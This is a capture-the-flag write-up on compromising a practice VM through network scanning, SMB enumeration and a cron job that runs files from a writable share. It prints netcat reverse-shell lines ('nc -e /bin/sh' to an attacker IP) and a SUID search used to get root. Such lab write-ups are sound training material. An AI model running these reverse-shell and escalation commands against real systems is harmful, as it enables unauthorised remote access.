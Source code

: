 

### **Netdiscover**

<img src="images/Screen Shot 2019-09-15 at 11.57.20 PM.png" alt="Screen Shot 2019-09-15 at 11.57.20 PM"  />

![Screen Shot 2019-09-15 at 11.57.20 PM](images/Screen Shot 2019-09-15 at 11.57.20 PM.png)

We use the tools called netdiscover scan hosts, we found the 192.168.0.107 is our target virtualbox host ip.

------

### **Namp**

<img src="images/Screen Shot 2019-09-15 at 11.57.43 PM.png" alt="Screen Shot 2019-09-15 at 11.57.43 PM" style="zoom:50%;" />

We found some services  <u>HTTP</u>, <u>SMB</u>, <u>MYSQL</u> 

------

### Enum4linux

<img src="images/Screen Shot 2019-09-16 at 12.07.28 AM.png" alt="Screen Shot 2019-09-16 at 12.07.28 AM" style="zoom:50%;" />

<img src="images/Screen Shot 2019-09-16 at 12.08.48 AM.png" alt="Screen Shot 2019-09-16 at 12.08.48 AM" style="zoom:100%;" />

When we see smbd service , we use enum4linux scan smbd service config and basic infomation, we not found user but we find a smb share filefolder: <u>*IPC$*</u> , <u>ITDEPT</u> and user: <u>*dawn, ganimedes*</u>

------

### Smbclient

<img src="images/Screen Shot 2019-09-16 at 12.13.21 AM.png" alt="Screen Shot 2019-09-16 at 12.13.21 AM" style="zoom:50%;" />

By using smbclient connect , We could found this existed **<u>web-control, product-control</u>**.

------

### Msf dir_scanner

<img src="images/Screen Shot 2019-09-16 at 12.31.41 AM.png" alt="Screen Shot 2019-09-16 at 12.31.41 AM" style="zoom:100%;" />

At First, I intend to try a dict by kail linux to do a basic dir scanner, if not successfully , i will try a big dir dict by **gobuster** , luckily, we find /logs is existd.

------

### Solution

<img src="images/Screen Shot 2019-09-16 at 12.36.41 AM.png" alt="Screen Shot 2019-09-16 at 12.36.41 AM" style="zoom:100%;" />

<img src="images/Screen Shot 2019-09-16 at 12.39.01 AM.png" alt="Screen Shot 2019-09-16 at 12.39.01 AM" style="zoom:50%;" />


When we link to this <u>192.168.0.107/logs/</u>, We can find some file。By reading these files, this management.log is a log file,  we can find target host exists a crontab job chmod 777 product-control, web-control, so that we can reverse shell by these two file with samba share file folder.

`echo 'nc -e /bin/sh 192.168.0.105 2333' > web_product`

`echo 'nc -e /bin/sh 192.168.0.105 2334' > product_product`

wait a little time , then crontab job run.....

<img src="images/Screen Shot 2019-09-16 at 12.52.30 AM.png" alt="Screen Shot 2019-09-16 at 12.52.30 AM" style="zoom:50%;" />

<img src="images/Screen Shot 2019-09-16 at 12.52.38 AM.png" alt="Screen Shot 2019-09-16 at 12.52.38 AM" style="zoom:100%;" />


we use dawn users, we do some privilege escalate.

`find / -perm -u=s 2>/dev/null`

<img src="images/Screen Shot 2019-09-16 at 1.23.17 AM.png" alt="Screen Shot 2019-09-16 at 1.23.17 AM" style="zoom:100%;" />

<img src="images/Screen Shot 2019-09-16 at 1.24.03 AM.png" alt="Screen Shot 2019-09-16 at 1.24.03 AM" style="zoom:100%;" />

So we use /usr/bin/zsh to do it.

<img src="images/Screen Shot 2019-09-16 at 1.26.25 AM.png" alt="Screen Shot 2019-09-16 at 1.26.25 AM" style="zoom:100%;" />

congratulation... then we go into /root, can see this flag. 

<img src="images/Screen Shot 2019-09-16 at 1.28.54 AM.png" alt="Screen Shot 2019-09-16 at 1.28.54 AM" style="zoom:50%;" />

------

OS: Other ways,  i will append in my github if i can find themselves.T_T

------

**That' all , Thanks for your watching**

